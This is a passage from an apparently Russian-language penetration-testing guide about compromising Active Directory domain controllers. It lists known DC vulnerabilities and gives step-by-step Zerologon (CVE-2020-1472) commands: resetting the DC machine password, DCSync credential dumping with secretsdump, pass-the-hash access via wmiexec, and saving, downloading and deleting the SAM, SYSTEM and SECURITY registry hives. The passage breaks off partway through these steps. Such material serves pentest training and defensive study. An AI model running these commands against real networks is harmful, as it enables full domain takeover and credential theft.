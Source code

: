 ### 14.2 Эксплуатация уязвимостей узла контроллера домена

В серверных системах, которые могут быть настроены как контроллеры домена, а также в протоколах, использующихся
контроллерами, появляются и становятся известными уязвимости, позволяющие взломать сервер и захватить на нем полное
управление.

Это один из самых простых способов компрометировать и захватить управление над контроллером домена.

Примеры таких уязвимостей:

    PrinterNightmare
    ZeroLogon
    SamAccountNameSpoofing
    MS14-068
    Drop The MIC (Во взаимодействии DC с DC) и пр. вплоть до MS17-010

### Zerologon

Рассмотрим эксплуатацию одной из самых ярких уязвимостей в контроллере домена.

**Zerologon** — это название уязвимости с идентификатором CVE-2020-1472. Ее так назвали из-за изъяна процесса Netlogon:
вектор инициализации (IV), который должен был бы представлять собой случайное число, всегда состоит из одних нулей.

-----> Полный разбор эксплойта представлен тут

Эксплуатация Zerologon
Шаги:

1. Сброс пароля при помощи эксплойта:

> python3 cve-2020-1472-exploit.py -n 'DC01$' -t 10.10.0.1

2. Реализация атаки DCSync с пустым паролем:

> python3 secretsdump.py -no-pass -just-dc 'domain.local/DC01$@10.10.0.1'

3. Получаем NT-хеш администратора с “относительным идентификатором” (relative identifier) RID 500 и используем его для
   получения доступа к управлению контроллером через WMI с помощью утилиты пакета Impacket: wmiexec.py:

> python3 wmiexec.py -hashes <hash-value> 'domain.local/DC01$@10.10.0.1'

После успешного изменения пароля DC сервер Active Directory работает некорректно. Чтобы DC продолжал нормально работать,
необходимо переустановить исходный хэш пароля.

4. Создаем и скачиваем резервные копии реестра для восстановления пароля DC:

       reg save HKLM\SYSTEM system.save
       reg save HKLM\SAM sam.save
       reg save HKLM\SECURITY security.save
       lget system.save
       lget sam.save
       lget security.save
       del /f system.save
       del /f sam.save
       del /f security.save
